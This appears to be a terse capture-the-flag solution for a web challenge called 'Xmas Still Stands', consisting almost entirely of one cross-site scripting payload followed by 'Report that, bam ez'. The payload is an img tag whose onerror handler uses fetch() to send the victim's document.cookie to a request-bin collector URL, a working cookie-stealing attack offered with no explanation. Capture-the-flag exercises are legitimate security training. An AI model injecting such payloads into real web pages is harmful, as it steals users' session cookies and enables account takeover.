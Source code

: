 # Xmas Still Stands

```
<img src=x onerror=fetch("requestbinurl?cookie="+document.cookie)>
```
Report that, bam ez
